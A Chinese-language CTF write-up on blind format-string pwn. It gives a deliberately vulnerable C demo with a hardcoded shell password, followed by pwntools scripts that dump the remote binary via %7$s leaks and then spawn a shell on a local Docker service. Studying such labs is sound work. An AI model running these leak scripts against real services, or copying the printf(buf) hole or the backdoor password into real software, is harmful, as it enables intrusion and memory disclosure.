









fmt Blind Pwn 研究

- - -

# fmt Blind Pwn

今年山东省省赛出了个格式化字符串盲打的pwn，这里我就来研究一下这类题目怎么做

## 题目描述

这类题目不会给任何文件，只给远程连接的ip和端口，这类pwn存在无限的格式化字符串漏洞，我们可以利用这里点然后通过脚本把大致的程序给dump下来

## 利用条件

存在无限使用的格式化字符串漏洞

## 利用原理

%n$s ：将第n个参数的值作为地址，输出这个地址指向的字符串内容  
%n$p ：将第n个参数的值作为内容，以十六进制形式输出

dump程序是获取给定地址的内容，所以使用%n$s，  
然后就是使用%s是一直输出直到遇到\\x00截止符才会停止，也就是每次泄露的长度是不确定的，可能很长也可能是空，因为 .text 段很可能有连续 \\x00，所以我们下面的脚本遇到'\\x00'的时候，地址加1然后数据设置为'\\x00'

程序加载的地方：  
32位：从0x8048000开始泄露  
64位：从0x400000开始泄露  
这里我只展示64位的例子

## demo

```plain
#include<stdio.h>
#include<stdlib.h>
int main()
{
    setbuf(stdin, 0LL);
    setbuf(stdout, 0LL);
    setbuf(stderr, 0LL);
    char buf[0x100];
    memset(buf,0,0x100);
    while(1)
    {
        puts("Please enter your answer");
        read(0,buf,0x50);
        if(!strcmp(buf,"F4atherw1t"))system("/bin/sh");
        printf(buf);
    }
}
```

这里先说一下我在写demo的时候遇到的一些问题：  
一开始我仿照Ayakaaaa师傅写的demo,在输出前什么都没加，就是下面这样

```plain
#include<stdio.h>
#include<stdlib.h>
int main()
{
    setbuf(stdin, 0LL);
    setbuf(stdout, 0LL);
    setbuf(stderr, 0LL);
    char buf[0x100];
    memset(buf,0,0x100);
    while(1)
    {
        read(0,buf,0x50);
        if(!strcmp(buf,"F4atherw1t"))system("/bin/sh");
        printf(buf);
    }
}
```

这里我编译一下：  
gcc 1.c -o pwn -z execstack -fno-stack-protector -no-pie  
然后本地挂载利用的是ctf\_xinetd一键设置的，具体流程参考以下连接  
[https://cloud.tencent.com/developer/article/2183060](https://cloud.tencent.com/developer/article/2183060)  
这里主要的命令就是：  
sudo docker build -t "pwn" .  
sudo docker run -d -p "127.0.0.1:5001:9999" -h "pwn" --name="pwn" pwn

然后我这里挂上，然后用脚本去dump，会出现下面的情况

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128210631-f2ff1752-8dee-1.png)  
这里可能是接收的太快或者因为其他原因并没有按照脚本去一位一位的加，导致dump出来时这么个情况

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128210641-f8e1ac7a-8dee-1.png)  
把这个东西拖入ida分析，发现应该是损害的，直接没法分析。这里就算是在脚本上加上sleep也不管用，当然也可能是脚本有些问题，不过下面的脚本在解决带输出字符串的demo是没有问题的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128210656-023815ac-8def-1.png)  
所以这里我们看一下带输出字符串的demo

## 解决思路

假设我们不太清楚这个blind pwn是什么类型的，所以简单测试一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128210712-0b663a64-8def-1.png)  
可以看到就是无限使用的格式化字符串漏洞  
然后我们找到偏移  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128210724-12892fb8-8def-1.png)  
可以看到偏移为6  
然后我们就可以用%7$s去泄露我们在下一个地址处写入的地址储存的内容，就比如  
sl('%7$sdump'+p64(0x400000))  
这里dump是补齐8字节的  
所以我们有了这个思路之后，就写出个循环，然后dump程序就行  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128210748-2124b452-8def-1.png)  
可以看出来这里的地址是没有问题的  
然后我们dump下来一个elf文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128210801-2900f168-8def-1.png)  
之后直接拖入ida分析就可以

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128210811-2eb20656-8def-1.png)  
这里大致可以看出逻辑，直接就是字符串匹配，直接输入'F4atherw1t'即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128210856-49c15f78-8def-1.png)

## dump.py

```plain
import os
import sys
import time
from pwn import *
from ctypes import *
import binascii

context.os = 'linux'
context.log_level = "debug"

context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

#p=process('./pwn')
p=remote('127.0.0.1',5001)

begin=0x400000
bin = b''
def leak(addr):
    pl="%7$sdump"+p64(addr)
    sla('Please enter your answer\n',pl)
    data=p.recvuntil('dump',drop=True)
    #data = p.recvrepeat(0.2)
    return data

try:
    while True:

        data = leak(begin)
        begin = begin+len(data)
        bin += data
        if len(data)==0:
            begin+=1
            bin += '\x00'

except:
    print("finish")
finally:
    print '[+]',len(bin)
    with open('dump_bin','wb') as f:
        f.write(bin)

p.interactive()
```

## exp.py

```plain
import os
import sys
import time
from pwn import *
from ctypes import *
import binascii

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

#p=process('./pwn')
p=remote('127.0.0.1',5001)
def duan():
    gdb.attach(p)
    pause()
#duan()
#sl('%7$sdump'+p64(0x40000))
sla('Please enter your answer\n','F4atherw1t\0')
itr()
```

## 总结

通过一个简单的demo来学习一下这个知识点，然后之后遇到类似的问题不至于没有思路
